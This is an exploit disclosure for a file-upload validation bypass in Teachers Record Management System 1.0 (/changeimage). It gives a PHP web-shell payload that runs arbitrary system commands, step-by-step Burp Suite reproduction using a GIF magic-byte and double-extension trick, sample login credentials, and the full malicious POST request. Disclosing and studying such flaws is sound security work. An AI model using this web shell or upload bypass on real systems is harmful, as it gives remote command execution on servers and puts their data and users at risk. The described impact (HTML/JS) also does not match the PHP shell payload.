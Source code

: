 ```
Exploit Title: Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage
Date: 17-01-2023
Vendor Homepage: https://phpgurukul.com
Software Link: https://phpgurukul.com/teachers-record-management-system-using-php-and-mysql/
Version: 1.0
Tested on: Windows 11 + XAMPP 
```

<h2>DESCRIPTION</h2>
The upload functionality of updating user profile does not properly validate the file content-type, 
filename, allowing any authenticated user to bypass this security check by adding a valid signature (p.e. GIF89) 
and sending any invalid content-type. This could allow an authenticated attacker to upload HTML files with JS content 
that will be executed in the context of the domain.

## PAYLOAD-USED ##
 ` GIF89a <?php echo system($_REQUEST['dx']); ?> `

<h2>STEPS-TO-REPRODUCE</h2>

1. Login into Teacher-Account with the credentials “**Username:** jogoe12@yourdomain.com”
**Password: Test@123**”

2. Navigate to Profile Section and edit the Profile Pic by clicking on **Edit Image**
3. Open the Burp-suite and Intercept the  Edit Image Request 
4. In POST Request Change the “ **Filename** “ from “ **profile picture.png** “  to  “**profile picture.php.gif** ” 
5. Change the **Content-type from “ image/png “ to “ image/jpg “**
6. And Add this **Payload** : ` GIF89a <?php echo system($_REQUEST['dx']); ?> `
7. Where **GIF89a is the GIF magic bytes this bypass the file upload extension**
8. Below is the Burpsuite-POST Request for all the changes that I have made above

<h2>PROOF-OF-CONCEPT</h2>
The following request was modified to allow uploading php file using a valid GIF signature, but can be modified to upload any kind of content-type:

```
POST /trms/teacher/changeimage.php HTTP/1.1
Host: localhost
Content-Length: 442
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryndAPYa0GGOxSUHdF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/trms/teacher/changeimage.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8alf0rbfjmhm3ddra7si0cv7qc
Connection: close

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="subjects"

John Doe
------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="newpic"; filename="profile picture.php.gif"
Content-Type: image/gif

GIF89a <?php echo system($_REQUEST['dx']); ?>

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryndAPYa0GGOxSUHdF--
```
![Teacher-management-poc-file-upload-1](https://user-images.githubusercontent.com/98345027/212889242-0b6bf2d9-d68e-428d-a2ea-c53418b6fa70.png)


<h2>IMPACT</h2>
This could allow an attacker to write custom pages ,Those pages can contain phishing html 
or even JS code that will be executed in the context of the active user browser.

